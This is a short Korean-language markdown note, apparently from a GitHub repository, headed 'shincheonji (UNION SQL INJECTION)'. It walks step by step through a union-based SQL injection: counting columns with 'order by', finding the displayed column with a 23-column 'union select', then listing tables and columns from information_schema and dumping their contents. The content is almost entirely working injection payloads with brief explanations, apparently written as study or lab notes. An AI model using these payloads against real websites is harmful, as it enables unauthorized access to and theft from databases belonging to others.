 # shincheonji (UNION SQL INJECTION)

order by: 어떤것으로 정렬 하겠다
* * *
1에서부터 1씩 늘려가며 컬럼 개수를 알아낸다.
```
aa' order by 1 #
```
--------------------------------------------------------------------------------------------------------------------------------------------------------------------
정확히 어떤 컬럼들이 화면에 출력돼는지 확인한다. 만약 컬럼개수가 3개라면 "   aa' union select 1,2,3 #   " 이렇게 한다. 그리고 찍힌 숫자의 자리에 원하는 데이터를 넣을수 있다. 11번이라면 11의 자리의 원하는 데이터를 넣을수 있다.
```
aa' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23 #
```
--------------------------------------------------------------------------------------------------------------------------------------------------------------------
테이블들을 출력한다. 찍힌 숫자가 11번이기 떄문데 11자리에 'table_name'을 넣은것이다.
```
aa' union select 1,2,3,4,5,6,7,8,9,10,table_name,12,13,14,15,16,17,18,19,20,21,22,23 from information_schema.tables where table_type='BASE TABLE' #
```
--------------------------------------------------------------------------------------------------------------------------------------------------------------------
찾을 테이블의 이름을 넣어서 테이블의 컬럼들을 출력한다.
```
aa' union select 1,2,3,4,5,6,7,8,9,10,column_name,12,13,14,15,16,17,18,19,20,21,22,23 from information_schema.columns where table_name='테이블 이름' #
```
--------------------------------------------------------------------------------------------------------------------------------------------------------------------
컬럼을 출력한다.
```
aa' union select 1,2,3,4,5,6,7,8,9,10,컬럼 이름,12,13,14,15,16,17,18,19,20,21,22,23 from 테이블 이름 #
```
